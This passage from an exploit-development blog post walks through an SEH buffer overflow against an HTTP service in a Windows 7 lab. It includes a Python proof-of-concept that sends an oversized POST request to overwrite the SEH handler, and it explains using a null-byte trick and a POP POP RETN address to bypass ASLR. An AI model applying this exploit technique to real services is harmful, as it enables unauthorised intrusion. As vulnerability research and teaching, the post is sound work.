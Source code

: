 However if we adjust the code and reduce the size of our overwrite, we can actually get the request to be terminated with a NULL byte. The code that causes this overwrite can be seen below:

```python
#!/bin/python
import socket

initial = "\x41" * 790
nseh = "BBBB"
seh = "\xCC\xCC\xCC"

buffer = "POST /" + initial + nseh + seh + " HTTP/1.1\r\n"
buffer += "User-Agent: Wget/1.13.4\r\n"
buffer += "Host: 192.168.99.142:8080\r\n"
buffer += "Accept: */*\r\n"
buffer += "Connection: Keep-Alive\r\n"
buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
buffer += "Content-Length: 4"
buffer += "\r\n\r\n"
buffer += "licenseID=string&content=string&paramsXML=string"

handle = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
handle.connect(("192.168.82.129", 8080))
handle.send(buffer)
handle.close()
```

And as you can see, the request is terminated with a `\x00` byte, resulting in the SEH handler being set to `00CCCCCC`:

[![](https://2.bp.blogspot.com/-jnQ7_L6NBXQ/VEGdESAKesI/AAAAAAAAAbc/M0M6O02ffXI/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_059.png)](https://2.bp.blogspot.com/-jnQ7_L6NBXQ/VEGdESAKesI/AAAAAAAAAbc/M0M6O02ffXI/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_059.png)

The next part comes in bypassing ASLR on Windows, which is the first of several protections we will need to bypass to get around EMET (which will be discussed in a separate blog post).

## Fixing the Problem

From the earlier post where we examined that SafeSEH is not enabled for the application binary itself, we can also notice that the application binary itself is the only one not subject to DEP, ASLR, or pretty much any protections at all. As thus, if we can find an address within this binary that holds a `POP POP RETN` instruction, we can use this in combination with the fact that our requests are now terminated with a null byte (the first byte of the binary's addresses start with a `\x00` so we need to use this trick to be able to use addresses from the binary itself) to create a ASLR friendly SEH overwrite.

Lets pick the first address we find, aka `004015C2`:

[![](https://2.bp.blogspot.com/-gt6uNPYgGjk/VEGei6lBT_I/AAAAAAAAAbo/fpPnuCORMBA/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_061.png)](https://2.bp.blogspot.com/-gt6uNPYgGjk/VEGei6lBT_I/AAAAAAAAAbo/fpPnuCORMBA/s0/Windows%2B7%2BProfessional%2B-%2BVMware%2BPlayer%2B(Non-commercial%2Buse%2Bonly)_061.png)
